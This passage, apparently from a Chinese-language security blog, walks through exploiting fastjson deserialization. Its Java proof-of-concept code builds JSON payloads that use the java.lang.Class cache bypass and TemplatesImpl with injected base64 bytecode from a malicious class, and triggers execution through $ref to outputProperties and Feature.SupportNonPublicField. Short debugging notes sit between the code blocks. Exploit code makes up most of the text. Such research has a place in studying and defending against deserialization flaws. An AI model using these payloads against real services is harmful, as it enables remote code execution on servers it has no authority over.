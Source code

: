 ```java
        return Base64.encode(code1);
    }
}
```

结果发现1.2.36早就把TemplatesImpl加入黑名单了，而>=1.2.36才能通过$ref调用getter

那我强行用MiscCodec缓存绕过

```java
public class Id_MINIMAL_Class_TemplatesImpl {
    public static void main(String[] args) throws IOException {
        String exp = readClassStr("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\TemplatesImpl_RuntimeEvil.class");
        String jsonInput = aposToQuotes("[{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"},{'@type':'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',\n" +
                "'transletBytecodes':['"+exp+"'],\n" +
                "'transletName':'test'},\n" +
                "{\"$ref\":\"$[1].outputProperties\"}\n" +
                "]");
        System.out.printf(jsonInput);
        JSON.parse(jsonInput);
    }

    public static String aposToQuotes(String json){
        return json.replace("'","\"");
    }

    public static String readClassStr(String cls) throws IOException {
        byte[] code1 = Files.readAllBytes(Paths.get("target/classes/TemplatesImpl_RuntimeEvil.class"));
        return Base64.encode(code1);
    }
}
```

结果发现没反应也没报错

调试跟进去发现TemplatesImpl没赋上值

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241025121532025.png)

在我的多方调试下，终于发现，fastjson反序列化不能调用私有和保护setter进行赋值：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241013111602440.png)

所以只能用Feature.SupportNonPublicField直接对字段反射赋值

```java
public class Id_MINIMAL_Class_TemplatesImpl {
    public static void main(String[] args) throws IOException {
        String exp = readClassStr("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\TemplatesImpl_RuntimeEvil.class");
        String jsonInput = aposToQuotes("[{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"},{'@type':'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',\n" +
                "'_bytecodes':['"+exp+"'],\n" +
                "'_name':'test'," +
                "'_tfactory':{}},\n" +
                "{\"$ref\":\"$[1].outputProperties\"}\n" +
                "]");
        System.out.printf(jsonInput);
        JSON.parse(jsonInput, Feature.SupportNonPublicField);
    }

    public static String aposToQuotes(String json){
```